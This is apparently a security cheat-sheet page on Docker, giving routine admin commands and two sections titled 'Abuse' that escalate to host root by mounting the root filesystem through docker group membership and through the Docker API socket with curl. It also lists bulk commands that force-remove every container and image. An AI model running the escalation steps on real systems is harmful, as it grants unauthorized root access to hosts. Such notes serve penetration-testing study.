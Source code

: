 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["Forensic", "Docker", "Container", "Dive"]
---
```


### Basic Commands

```console
# Show all running processes
sudo docker ps -a
```

```console
# Show all images
sudo docker images -a
```

```console
# Stop all processes
sudo docker stop $(sudo docker ps -a -q)
```

```console
# Remove all processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```console
# Remove all images
sudo docker rmi -f $(sudo docker images -aq)
```

```console
# Shell in docker
sudo docker exec -it <CONTAINER_NAME> sh
```

```console
# Copy file from host to container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```console
# Copy file from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```console
# Copy folder from host to container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```console
# Copy folder from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

---

### Explore Docker image

{{< tab set1 tab1 active >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
dive docker-archive://image.tar
```

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

---

### Abuse #1: Docker group

```console
# List images
docker images
```

```console
# Mount host root filesystem
docker run -v /:/mnt -it <IMAGE_NAME> bash
```

```console
# Check
ls /mnt/root
```

---

### Abuse #2: Docker API

```console
# Show running containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```console
# Create container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```console
# Start container
curl -s -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```console
# Show results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```
